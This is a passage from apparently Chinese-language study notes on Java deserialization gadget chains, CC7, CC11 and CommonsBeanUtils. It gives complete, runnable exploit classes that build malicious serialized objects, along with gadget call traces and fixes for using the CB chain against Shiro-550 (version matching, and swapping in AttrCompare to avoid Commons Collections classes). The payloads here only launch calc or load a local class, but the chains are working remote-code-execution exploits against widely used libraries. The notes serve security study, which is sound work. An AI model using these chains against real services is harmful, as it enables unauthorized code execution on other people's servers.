    

- 为了避免在序列化时通过`HashTable.put()`调用`equals()`，还是像之前一样先不将整条链写完整，然后在序列化前再将链补全，所以最终的EXP如下

  ```java
  package CC7;
  
  import org.apache.commons.collections.Transformer;
  import org.apache.commons.collections.functors.ChainedTransformer;
  import org.apache.commons.collections.functors.ConstantTransformer;
  import org.apache.commons.collections.functors.InvokerTransformer;
  import org.apache.commons.collections.map.AbstractMapDecorator;
  import org.apache.commons.collections.map.LazyMap;
  
  import java.io.*;
  import java.lang.reflect.Field;
  import java.util.AbstractMap;
  import java.util.HashMap;
  import java.util.Hashtable;
  import java.util.Map;
  
  public class CC7 {
      public static void main(String[] args) throws Exception {
  
          Transformer[] transformers = new Transformer[] {
                  new ConstantTransformer(Runtime.class),
                  new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                  new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                  new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
          };
          ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{});
  
          HashMap<Object, Object> hashmap1 = new HashMap<>();
          HashMap<Object, Object> hashmap2 = new HashMap<>();
  
          Map lazymap1 = LazyMap.decorate(hashmap1, chainedTransformer);
          hashmap1.put("yy", 1);
          Map lazymap2 = LazyMap.decorate(hashmap2, chainedTransformer);
          hashmap2.put("zZ", 1);
  
          Hashtable<Object, Object> hashtable = new Hashtable<>();
          hashtable.put(lazymap1, 1);
          hashtable.put(lazymap2, 2);
          hashmap2.remove("yy");
  
          Class<? extends ChainedTransformer> chainedTransformerClass = chainedTransformer.getClass();
          Field iTransformersField = chainedTransformerClass.getDeclaredField("iTransformers");
          iTransformersField.setAccessible(true);
          iTransformersField.set(chainedTransformer, transformers);
  
          serialize(hashtable);
          deserialize("ser7.bin");
  
      }
      public static void serialize(Object obj) throws IOException {
          ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser7.bin"));
          oos.writeObject(obj);
      }
  
      public static Object deserialize(String Filename) throws Exception {
          ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
          Object o = ois.readObject();
          return o;
      }
  }
  
  ```

- Gadget

  ```java
  Hashtable.readObject()
  Hashtable.reconstitutionPut()
  	AbstractMapDecorator.equals()
  		AbstractMap.equals()
              LazyMap.get()
                  ChainedTransformer.transform()
                          ConstantTransformer(Runtime.class)
                          InvokerTransformer.transform()
                              Class.getMethod
                              gerMethod.getRuntime()
                              Runtime.getRuntime().exec()
  ```


## CC11

主要是针对Shiro550的命令执行反序列化漏洞，实际上就是**CC2+CC6**的结合，然后受影响的版本是 Commons-Collections 3.1-3.2.1 这些使用更多的版本

### 链条成因

- 之所以要使用CC2作为后部分链，是因为其没有通过数组调用，若使用数组调用则会保错

  

  - Shiro不能加载数组是因为其重写了反序列化方法中的`resolveClass()`，以下是原生反序列化中的方法，使用`Class.forName()`获取Class

    

  - 而Shiro中自写了`ClassUtils`类

    

  - 其中使用`loadClass`加载

    

- 大体来说就是`loadClass()`没法加载数组类，而`Class.forName()`可以，更深入就涉及Tomcat的类加载机制了，先不做多余了解

### 链条构造

- 这里先拿出CC2的后部分

  ```java
  TemplatesImpl templates = new TemplatesImpl();
  Class templatesClass = templates.getClass();
  
  Field name = templatesClass.getDeclaredField("_name");
  name.setAccessible(true);
  name.set(templates, "name");
  
  Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
  bytecodes.setAccessible(true);
  byte[] code = Files.*readAllBytes*(Paths.*get*("D:\\Loader\\Calc.class"));
  byte[][] codes = {code};
  bytecodes.set(templates, codes);
  
  InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", null, null);
  ```

  - 这里没使用`TransformingComparator`是因为该类是在CommonsCollections 4新加的

- 然后是CC6的前部分

  ```java
  HashMap<Object, Object> map = new HashMap<>();
  Map lazymap = LazyMap.decorate(map, chainedTransformer);
  TiedMapEntry tiedMapEntry = new TiedMapEntry(map, "key");
  
  HashMap<Object, Object> hashMap = new HashMap<>();
  hashMap.put(tiedMapEntry, "value");
  Class<?> clazz = TiedMapEntry.class;
  Field field = clazz.getDeclaredField("map");
  field.setAccessible(true);
  field.set(tiedMapEntry, lazymap);
  
  serialize(hashMap);
  deserialize("ser6.bin");
  ```

- 对这两段代码做一下简单的修改连接即可形成完整代码

  ```java
  package CC11;
  
  import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
  import org.apache.commons.collections.keyvalue.TiedMapEntry;
  import org.apache.commons.collections.map.LazyMap;
  import org.apache.commons.collections.functors.InvokerTransformer;
  
  import java.io.*;
  import java.lang.reflect.Field;
  import java.nio.file.Files;
  import java.nio.file.Paths;
  import java.util.HashMap;
  import java.util.Map;
  
  public class CC11 {
      public static void main(String[] args) throws Exception {
  
          TemplatesImpl templates = new TemplatesImpl();
          Class templatesClass = templates.getClass();
  
          Field name = templatesClass.getDeclaredField("_name");
          name.setAccessible(true);
          name.set(templates, "name");
  
          Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
          bytecodes.setAccessible(true);
          byte[] code = Files.readAllBytes(Paths.get("D:\\Loader\\Calc.class"));
          byte[][] codes = {code};
          bytecodes.set(templates, codes);
  
  
          InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", null, null);
  
          HashMap<Object, Object> map = new HashMap<>();
          Map lazymap = LazyMap.decorate(map, invokerTransformer);
  		//这里构成LazyMap.get(templates)
          TiedMapEntry tiedMapEntry = new TiedMapEntry(map, templates);
  
          HashMap<Object, Object> hashMap = new HashMap<>();
          hashMap.put(tiedMapEntry, "value");
  
          Class<?> clazz = TiedMapEntry.class;
          Field field = clazz.getDeclaredField("map");
          field.setAccessible(true);
          field.set(tiedMapEntry, lazymap);
  
          serialize(hashMap);
          deserialize("ser11.bin");
      }
  
      public static void serialize(Object obj) throws IOException {
          ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser11.bin"));
          oos.writeObject(obj);
      }
  
      public static Object deserialize(String Filename) throws IOException, ClassNotFoundException {
          ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
          Object o = ois.readObject();
          return o;
      }
  }
  ```

- 鉴于反复使用反射修改私有成员变量，所以将这个过程独立的单独的模块`setFieldValue()`

  ```java
  package CC11;
  
  import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
  import org.apache.commons.collections.keyvalue.TiedMapEntry;
  import org.apache.commons.collections.map.LazyMap;
  import org.apache.commons.collections.functors.InvokerTransformer;
  
  import java.io.*;
  import java.lang.reflect.Field;
  import java.nio.file.Files;
  import java.nio.file.Paths;
  import java.util.HashMap;
  import java.util.Map;
  
  public class CC11 {
      public static void main(String[] args) throws Exception {
  
          TemplatesImpl templates = new TemplatesImpl();
          byte[] code = Files.readAllBytes(Paths.get("D:\\Loader\\Calc.class"));
  
          setFieldValue(templates, "_name", "Jw1ng");
          setFieldValue(templates, "_bytecodes", new byte[][]{code});
  
          InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", null, null);
  
          HashMap<Object, Object> map = new HashMap<>();
          Map lazymap = LazyMap.decorate(map, invokerTransformer);
          TiedMapEntry tiedMapEntry = new TiedMapEntry(map, templates);
  
          HashMap<Object, Object> hashMap = new HashMap<>();
          hashMap.put(tiedMapEntry, "value");
  
          setFieldValue(tiedMapEntry, "map", lazymap);
  
          serialize(hashMap);
          deserialize("ser11.bin");
      }
  
      public static void setFieldValue(Object obj, String fieldname, Object value) throws NoSuchFieldException, IllegalAccessException {
          Field field = obj.getClass().getDeclaredField(fieldname);
          field.setAccessible(true);
          field.set(obj, value);
      }
  
      public static void serialize(Object obj) throws IOException {
          ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser11.bin"));
          oos.writeObject(obj);
      }
  
      public static Object deserialize(String Filename) throws IOException, ClassNotFoundException {
          ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
          Object o = ois.readObject();
          return o;
      }
  }
  
  ```

- Gadget

  ```java
  HashMap.readObject()
  	TiedMapEntry.hashCode()
  	TiedMapEntry.getValue()
  		LazyMap.get()
  			InvokerTransformer.transform()
      			TemplatesImpl.newTransformer()
  ```

## CB

### CommonsBeanUtils 

- Apache中还有Beanutils工作集，用于操控JavaBean，用`PropertyUtils.getProperty()`可以调用成员变量的getter方法

  

- 打断点调试会发现在`PropertyUtilsBean`类中将传入的成员变量转为符合Bean的格式`name->Name`，最后`invokeMethod()`调用`getName()`并将获取的值返回



### 链子分析

这里选用命令执行方法是类加载，也就是调用`TemplatesImpl.newTransformer()`

- 这里使用上面分析的CB依赖调用，也就是要在`TemplatesImpl`类中找到调用了`newTransformer()`的某getter方法，这里找到`getOutputProperties()`

  

  - 编写简单EXP验证链的可行性

    ```java
    TemplatesImpl templates = new TemplatesImpl();
    Class templatesClass = templates.getClass();
    
    Field name = templatesClass.getDeclaredField("_name");
    name.setAccessible(true);
    name.set(templates, "name");
    
    Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
    bytecodes.setAccessible(true);
    byte[] code = Files.readAllBytes(Paths.get("D:\\Loader\\Calc.class"));
    byte[][] codes = {code};
    bytecodes.set(templates, codes);
    
    Field tfactory = templatesClass.getDeclaredField("_tfactory");
    tfactory.setAccessible(true);
    tfactory.set(templates, new TransformerFactoryImpl());
    
    //传入符合Bean格式要求的property 
    //outputProperties->getOutputProperties
    PropertyUtils.getProperty(templates, "outputProperties");
    ```

- 接着在CB类中找调用了`getProperty`的类，最后找到了`BeanComparator.compare()`

  

- 又想到CC2中在入口类`PriorityQueue`中调用了`compare()`，正好能将这个链接起来

  

  ```java
  TemplatesImpl templates = new TemplatesImpl();
  Class templatesClass = templates.getClass();
  
  Field name = templatesClass.getDeclaredField("_name");
  name.setAccessible(true);
  name.set(templates, "name");
  
  Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
  bytecodes.setAccessible(true);
  byte[] code = Files.readAllBytes(Paths.get("D:\\Loader\\Calc.class"));
  byte[][] codes = {code};
  bytecodes.set(templates, codes);
  
  Field tfactory = templatesClass.getDeclaredField("_tfactory");
  tfactory.setAccessible(true);
  tfactory.set(templates, new TransformerFactoryImpl());
  
  BeanComparator beanComparator = new BeanComparator("outputProperties");
  
  //将comparator传为beanComparator，进入BeanComparator.comapre()
  PriorityQueue priorityQueue = new PriorityQueue<>(beanComparator);
  //在队列中添加两个值，为了进入for循环
  priorityQueue.add(templates);
  priorityQueue.add(2);
  ```

- 然后再加上入口类和反序列化，并将代码整体优化一下

  ```java
  package CB;
  
  import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
  import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
  import com.sun.org.apache.xml.internal.security.c14n.helper.AttrCompare;
  import org.apache.commons.beanutils.BeanComparator;
  import org.apache.commons.beanutils.PropertyUtils;
  import org.apache.commons.collections4.comparators.TransformingComparator;
  import org.apache.commons.collections4.functors.ConstantTransformer;
  
  import java.io.*;
  import java.lang.reflect.Field;
  import java.nio.file.Files;
  import java.nio.file.Paths;
  import java.util.PriorityQueue;
  
  public class CB {
      public static void main(String[] args) throws Exception {
          TemplatesImpl templates = new TemplatesImpl();
          byte[] code = Files.readAllBytes(Paths.get("D:\\Loader\\Calc.class"));
  
          setFieldValue(templates, "_name", "Jw1ng");
          setFieldValue(templates, "_bytecodes", new byte[][]{code});
  
          BeanComparator beanComparator = new BeanComparator("outputProperties");
  
          PriorityQueue priorityQueue = new PriorityQueue<>(beanComparator);
          setFieldValue(priorityQueue, "queue", new Object[]{templates, 2});
  //这里之所以在queue中添加了值后还要修改size是因为queue和size是两个独立的字段，它们的更新不关联，也就是虽然通过反射添加了两个队列但size的值还是0，也就不会进入for循环
          setFieldValue(priorityQueue, "size", 2);
  
          serialize(priorityQueue);
          deserialize("cb.bin");
      }
  
      public static void setFieldValue(Object obj, String filename, Object value) throws NoSuchFieldException, IllegalAccessException {
          Field field = obj.getClass().getDeclaredField(filename);
          field.setAccessible(true);
          field.set(obj, value);
      }
  
      public static void serialize(Object obj) throws IOException {
          ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("cb.bin"));
          oos.writeObject(obj);
      }
  
      public static Object deserialize(String Filename) throws IOException, ClassNotFoundException {
          ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
          Object o = ois.readObject();
          return o;
      }
  }
  
  ```

### 两个问题

以上的EXP在本地能正确执行了，但是用于shiro漏洞时又有问题

- 首先是第一个问题`org.apache.commons.beanutils.BeanComparator; local class incompatible: stream classdesc serialVersionUID = -2044202215314119608, local class serialVersionUID = -3490850999041592962`

  - 这个问题的原因很简单，就是本地类生成序列化UID与目标类不符，也就是版本问题，我用的CB版本是1.9.2，而shiro环境用的是1.8.3，让版本相同即可

- 第二个问题是`Unable to load ObjectStreamClass [org.apache.commons.collections.comparators.ComparableComparator: static final long serialVersionUID = -291439688585137865L;]: `

  - 这里没有使用CC集，为什么又去加载呢，问题出在`BeanComparator`中

    

  - 这个类的构造方法中如果没有传入comparator就会通过`ComparableComparator`实例化，而`ComparableComparator`就是CC下的类，所以要传入一个jdk自带的`comparator`，要求是能序列化最后找到`AttrCompare`

    

  - EXP只需修改BeanComparator即可

    ```java
    BeanComparator beanComparator = new BeanComparator("outputProperties", new AttrCompare());
    ```

- Gadget

  ```java
  PriorityQueue.readObject()
      heapify()->siftDown->siftDownUsingComparator()
      	BeanComparator.compare()
      		PropertyUtils.getProperty()
      			TemplatesImpl.getOutputProperties()
      				TemplatesImpl.newTransformer()
      					TemplatesImpl.getTransletInstance()
      						TemplatesImpl.newInstance()
  ```
